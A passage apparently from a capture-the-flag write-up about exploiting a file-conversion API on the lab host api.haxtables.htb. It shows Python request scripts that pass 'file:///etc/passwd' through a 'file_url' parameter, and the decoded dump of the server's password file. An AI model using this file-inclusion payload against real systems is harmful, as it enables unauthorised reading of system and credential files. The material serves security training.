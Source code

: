 I spent a lot of time trying to find the security issues in v2, but I did not find anything.

### LFI

The documentation showed that the API had a 'file_url' parameter that allowed loading the data to convert from a URL instead of passing it directly. I tried to point the 'file_url' to my machine, the server loaded the data from my machine. I tried redirecting it to another URL, but it did not appear to follow redirects.

I also tried to get it to load version 2 of the API from version 3.

```python
json_data = {
  'action': 'b64encode',
  'file_url' : 'http://api.haxtables.htb/v2/tools/string/index.php'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)
```

The URL was blocked. 

```bash
$ python test.py
{"message":"Unacceptable URL"}
```

Next, I tried to get it to load a file from the server.

```python
import requests

json_data = {
  'action': 'b64encode',
  'file_url' : 'file:///etc/passwd'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)
```

This worked. 

```bash
$ python test.py | jq ".data" | tr -d '"' | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```